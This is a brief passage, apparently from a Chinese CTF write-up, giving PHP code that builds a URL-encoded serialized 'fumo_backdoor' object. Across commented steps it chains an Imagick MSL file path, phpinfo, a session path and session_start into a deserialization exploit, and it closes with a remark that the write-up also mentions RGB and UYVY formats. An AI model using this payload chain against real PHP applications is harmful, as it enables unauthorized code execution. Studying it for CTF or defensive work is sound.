 ![](https://cdn.silente.top/img/202306242333993.png)

序列化代码：
```php
$data = new fumo_backdoor();  
  
// Step 1  
//$data->argv = "vid:msl:/tmp/php*";  
//$data->class = "Imagick";  
//$data->func = "114514";  
  
// Step 2  
//$data->func = "phpinfo";  
  
// Step 3  
//$data->path = "/tmp/se";  
  
// Step 4  
$data->func = "session_start";  
  
//echo serialize($data);  
echo urlencode(serialize($data));
```

除此之外，看 WP 还提到了 RGB，uyvy 等格式，开摆了。